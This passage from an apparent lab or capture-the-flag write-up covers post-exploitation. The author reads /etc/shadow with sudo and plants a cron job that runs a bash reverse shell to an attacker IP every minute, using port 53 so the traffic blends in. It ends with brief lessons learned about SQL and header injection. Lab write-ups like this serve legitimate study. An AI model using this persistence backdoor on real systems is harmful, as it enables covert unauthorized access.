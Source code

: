 Let's switch to the newly created user to ensure it works.

```shell
su nginx
```

Let's check we have sudo privileges.

```shell
sudo -l
```

{{< figure src="/ox-hugo/2025-08-11-195110_.png" >}}

Let's ensure we can actually read sudo level files by reading `/etc/shadow`
![](/ox-hugo/2025-08-11-195203_.png)
As we can see we do.

### Creating a cron job reverse shell: {#creating-a-cron-job-reverse-shell}

Having a high privilege user is good and all but not ideal if we can't access it due to ip whitelisting, so instead let's create a cronjob reverse shell&#x2026;.I know, I know we could update `iptables`, but where is the fun in that?

```shell
(crontab -l > .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.22/53 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
```

We will set it to run every 1 minute and also use port 53 (DNS) so it blends in.
![](/ox-hugo/2025-08-11-195617_.png)

Let's verify it's in the crontab by running `crontab -l`
![](/ox-hugo/2025-08-11-195635_.png)
As we can see it's running.

I start my listener and get a connection back after 1 minute.
![](/ox-hugo/2025-08-11-195651_.png)

- +Note+: This is great as a means to call back out to our attack machine, however an interval of every 1 minute is excessive, it would typically be better to set it at longer intervals to re-connect.

## Lessons Learned: {#lessons-learned}

### What did I learn? {#what-did-i-learn}

1.  This was mainly done to re-cement some more SQLi studying I have done recently as I am working my way through the portswigger academy training and this was a great way to drill that down so it helped alot.
2.  I learned alot about header injection, which is fairly new to me.

### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

